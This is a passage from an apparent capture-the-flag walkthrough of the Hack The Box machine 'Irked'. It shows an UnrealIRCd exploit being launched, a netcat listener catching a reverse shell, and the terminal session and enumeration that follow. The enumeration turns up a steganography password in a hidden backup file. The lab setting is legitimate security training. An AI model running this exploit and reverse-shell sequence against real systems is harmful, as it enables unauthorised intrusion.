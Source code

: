 After changing `LHOST`, and `LPORT`, I ran the exploit.
(Need to setup a listener ahead)

```bash
┌──(kali㉿kali)-[~/htb/irked]
└─$ python ircd_exploit.py -payload bash 10.10.10.117 6697
Exploit sent successfully!
```

Soon, the listener spawned a shell.

```bash
┌──(kali㉿kali)-[~/htb/irked]
└─$ nc -nlvp 9000           
listening on [any] 9000 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.117] 53112
bash: cannot set terminal process group (611): Inappropriate ioctl for device
bash: no job control in this shell
ircd@irked:~/Unreal3.2$ id
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
ircd@irked:~/Unreal3.2$ whoami
whoami
ircd
```

I got `ircd`'s shell.



# Shell as `djmardov`

### Enumeration

I enumerated `djmardov`'s home directory. I wasn't able to read most of the files due to permission, but I found one hidden file on `/home/djmardov/Documents` directory.

```bash
ircd@irked:/home/djmardov/Documents$ ls -al
ls -al
total 12
drwxr-xr-x  2 djmardov djmardov 4096 Sep  5  2022 .
drwxr-xr-x 18 djmardov djmardov 4096 Sep  5  2022 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
lrwxrwxrwx  1 root     root       23 Sep  5  2022 user.txt -> /home/djmardov/user.txt
ircd@irked:/home/djmardov/Documents$ cat .backup
cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

It seems that the password we found is related with steganography.
Since the image at the http main page is the only image that I've seen, let's download and try to investigate it.
